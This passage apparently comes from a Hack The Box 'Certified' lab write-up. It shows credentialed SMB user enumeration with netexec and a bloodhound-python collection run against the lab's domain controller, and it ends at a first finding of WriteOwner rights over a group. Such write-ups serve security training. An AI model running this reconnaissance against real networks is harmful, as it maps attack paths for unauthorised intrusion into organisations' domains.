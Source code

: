 ```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ netexec smb 10.129.231.186 -u 'judith.mader' -p 'judith09' --users 
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.231.186  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.231.186  445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain 
SMB         10.129.231.186  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.231.186  445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.129.231.186  445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.129.231.186  445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.129.231.186  445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.129.231.186  445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.129.231.186  445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.129.231.186  445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.129.231.186  445    DC01             [*] Enumerated 9 local users: CERTIFIED
```

### Bloodhound
Next, I ran `bloodhound-python` using Judith's account to find any potential attack paths in the environment.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ bloodhound-python -d certified.htb -ns 10.129.231.186 -u  judith.mader -p 'judith09' -c All --zip
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 23S
INFO: Compressing output into 20241112105018_bloodhound.zip
```
### Bloodhood Analysis
1. Judith has **WriteOwner** privileges over **Management** security group.